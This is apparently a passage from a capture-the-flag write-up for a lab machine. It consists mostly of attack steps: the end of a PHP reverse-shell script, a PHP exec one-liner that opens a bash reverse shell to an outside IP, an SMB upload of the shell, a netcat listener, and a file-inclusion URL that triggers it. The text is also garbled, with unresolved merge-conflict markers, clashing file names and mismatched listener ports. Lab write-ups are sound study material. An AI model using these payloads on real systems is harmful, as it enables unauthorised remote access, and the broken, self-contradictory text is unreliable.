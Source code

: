 ```<?php
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/9999 0>&1'");?>
```


**Upload the r_shell file**

```
smbclient \\\\10.10.10.123\\Development -U admin

Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
<<<<<<< HEAD
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (107.3 kb/s) (average 107.3 kb/s)
=======
smb: \> put r_shell
putting file php-reverse-shell as \php-reverse-shell (1.0 kb/s) (average 1.0 kb/s)
>>>>>>> main
smb: \> 

```


**Start Netcat Listener**
```
nc -nlvp 1234
```

**Execute Reverse Shell**

```
<<<<<<< HEAD
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell.php
=======
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
```
